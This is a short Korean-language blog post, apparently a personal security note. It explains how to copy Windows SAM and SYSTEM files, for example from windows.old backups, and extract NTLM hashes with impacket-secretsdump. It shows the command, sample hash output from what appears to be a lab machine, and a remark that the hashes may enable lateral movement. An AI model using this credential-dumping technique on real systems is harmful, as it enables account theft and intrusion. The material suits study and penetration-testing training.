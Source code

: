 ```yaml
---
layout: post
title: SAM, SYSTEM 덤프하기
subtitle: SAM, SYSTEM 덤프해서 크레덴셜 알아내는 방법
category: knowledge
thumbnail-img: /assets/img/hazard.jpg
tags: [sam, system, impacket-secretsdump]
author: Hong
---
```


# SAM과 SYSTEM

윈도우의 system32 폴더 안에는 비밀번호, NTLM 해쉬 같은 크레덴셜 정보를 담고 있는 SAM, SYSTEM같은 파일들이 있다.

민감한 파일들이라 평소에는 보호받고 있어서 복붙도 불가능하다.

하지만 백업파일로 남아있는 경우 (windows.old 같은) 이 민감한 파일들을 이용해서 유저의 크레덴셜을 추출할 수가 있다.

# SAM, SYSTEM 파일에서 정보 추출하기

kali에서 impacket-secretsdump라는 툴을 사용하기 위해 공격자 머신으로 두 파일을 옮길 필요가 있다.

파일들은 system32 폴더 안을 찾아보면 있다.

![SAM](/assets/img/knowledge/samsystem.png)

두 파일을 옮겼으면 다음의 명령어를 사용해서 크레덴셜을 추출한다.

```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:acbb9b77c62fdd8fe5976148a933177a:::
tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc:::
Cheyanne.Adams:1002:aad3b435b51404eeaad3b435b51404ee:b3930e99899cb55b4aefef9a7021ffd0:::
David.Rhys:1003:aad3b435b51404eeaad3b435b51404ee:9ac088de348444c71dba2dca92127c11:::
Mark.Chetty:1004:aad3b435b51404eeaad3b435b51404ee:92903f280e5c5f3cab018bd91b94c771:::
```

그럼 위와 같이 유저명과 크레덴셜들이 출력되는데 가장 뒤에 있는 게 NTLM 해쉬다.

해쉬를 이용해서 다른 머신으로 래터럴무브먼트가 가능할지도 모른다.
